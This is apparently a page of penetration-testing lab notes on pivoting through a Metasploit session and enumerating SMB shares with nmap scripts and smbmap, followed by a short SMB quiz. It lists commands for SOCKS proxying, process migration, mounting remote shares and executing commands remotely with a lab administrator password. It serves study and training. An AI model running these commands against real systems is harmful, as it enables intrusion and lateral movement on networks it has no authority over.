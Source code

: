 - __pivoting__
  - __set the autoroute for the target in metasploit__
    - __`run autoroute -s 10.0.1.0/20`__
  - __check the porxchain in the kali__
    - __`cat /etc/proxychains.conf` or `cat /etc/proxychains4a.conf`__
  - __search in msfconsole__
    - __`search socks4`__
    - __`use auxiliary/server/socks_proxy`__
      - __`set VERSION 4a`__
      - __`set SRVPORT 9050`__
      - __`exploit`__
  - __now open kali you can do the nmap__
    - __`proxychains nmap -sV -T4 -O -Pn -p 445 <ip>`__
  - __use the net view in the the reverse shell__
    - __`migrate -N explorer.exe`__
    - __`shell`__
     - __`net view <ip_of_the_subnet>`__
     - __`net use D: \\<subip>\Documents`__






 
# Q&A
- __1.What is the primary purpose of SMB in Windows networks?__
  - __Ans. `To facilitate network file sharing and resource access`__

- __2.Why do modern Windows networks primarily use SMB instead of NetBIOS?__
  - __Ans.`SMB offers better performance and security`__

- __3.Why is SMBv1 considered insecure?__
  - __Ans. `It allows anonymous logons and has several security vulnerabilities`__








## SMB 
+ Try to run the nmap to get the target host ip
- `nmap -T4 10.5.27.0/20 -o nmap.txt`
- 'nmap -Pn -A -sC -T4 10.5.19.82 -o nmap.txt` ---> Port scan on target ip
- `net use * /delete` ---> It delete smb local connection
- `net use z: \\10.5.19.82\c$ smbserver_771 /user:administrator`
- `nmap -p 445 --script smb-protocols 10.0.1.22`
- `nmap -p 445 --script smb-security-mode 10.0.1.22`
- `nmap -p 445 --script smb-enum-seesions 10.0.1.22`
- `nmap -p 445 --script smb-enum-seesions --script-args smbusername=administrator, smbpassword=smbserver_771 10.0.1.22`
- `nmap -p 445 --script smb-enum-shares --script-args smbusername=administrator, smbpassword=smbserver_771 10.0.1.22`
- `nmap -p 445 --script smb-enum-users --script-args smbusername=administrator, smbpassword=smbserver_771 10.0.1.22`
- `nmap -p 445 --script smb-server-stats --script-args smbusername=administrator, smbpassword=smbserver_771 10.0.1.22`
- `nmap -p 445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator, smbpassword=smbserver_771 10.0.1.22`
- `nmap -p 445 --script smb-enum-* --script-args smbusername=administrator, smbpassword=smbserver_771 10.0.1.22`
### SMBMap
- `smbmap -u guest -p "" -d . -H 10.0.1.22`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 -x "ipconfig"`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 -L`